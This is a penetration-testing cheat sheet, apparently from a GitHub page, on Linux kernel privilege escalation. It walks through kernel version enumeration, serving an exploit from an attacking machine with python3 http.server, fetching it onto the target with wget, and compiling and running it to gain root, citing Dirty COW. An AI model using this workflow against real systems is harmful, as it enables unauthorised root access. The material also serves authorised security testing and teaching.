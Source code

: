 
## General
A kernel exploit is a type of attack that targets vulnerabilities in the kernel of an operating system, such as Linux. The kernel is the central component of an operating system that manages resources and provides access to hardware and software services. It is responsible for interacting with the system's hardware and providing the necessary resources to run programs and processes.

An attacker can exploit vulnerabilities in the kernel to gain unauthorized access to a system, escalate their privileges, or execute arbitrary code. This can allow the attacker to bypass security controls, compromise sensitive data, and take control of the system.

There are several ways an attacker might exploit vulnerabilities in the kernel of a Linux system. One way is by using a buffer overflow attack, which involves sending more data to a buffer than it can handle, leading to a crash or the execution of malicious code. Another way is by using a race condition, which involves manipulating the timing of system calls to exploit a vulnerability.


## Kernel Exploits

Kernel level exploits exist for a variety of Linux kernel versions. A very well-known example is Dirty COW (CVE-2016-5195). These leverage vulnerabilities in the kernel to execute code with root privileges. It is very common to find systems that are vulnerable to kernel exploits. It can be hard to keep track of legacy systems, and they may be excluded from patching due to compatibility issues with certain services or applications.

- A quick way to identify exploits is to issue the command uname -a and search Google for the kernel version.

1. Check Kernel Version, OS Distribution & Version
```
uname -r             ---> Kernel Version
uname -a             ---> OS Version
cat /etc/*release    ---> Distribution Version
```

2. Download the exploit to the machine after finding one and compile it
```
# Attacking Machine
Download Exploit
python3 -m http.server

# Target Machine
wget http://IP/kernel_exploit.c
cc kernel_exploit.c -o kernel_expoit && chmod +x kernel_expoit
  '---> DEPEND ON THE KERNEL EXPLOIT, might need more arguments...
Edit/modify exploit if needed (Change password, username, salt, ...)
```

3. Run the exploit and become root!
```
./kernel_expoit
```

Although it looks simple, please remember that a failed kernel exploit can lead to a system crash. Make sure this potential outcome is acceptable within the scope of your penetration testing engagement before attempting a kernel exploit.

- Research sources:
	1.  Based on your findings, you can use Google to search for an existing exploit code.
	2.  Sources such as [https://www.linuxkernelcves.com/cves](https://www.linuxkernelcves.com/cves) can also be useful.
	3.  Another alternative would be to use a script like LES (Linux Exploit Suggester) but remember that these tools can generate false positives (report a kernel vulnerability that does not affect the target system) or false negatives (not report any kernel vulnerabilities although the kernel is vulnerable).  
   
- Hints/Notes:
	1.  Being too specific about the kernel version might not be the best when searching for exploits on Google, Exploit-db, or searchsploit
	2.  Be sure you understand how the exploit code works BEFORE you launch it.
	3.  Some exploits may require further interaction once they are run. Read all comments and instructions provided with the exploit code.
	4.  You can transfer the exploit code from your machine to the target system using the `SimpleHTTPServer` Python module and `wget` respectively.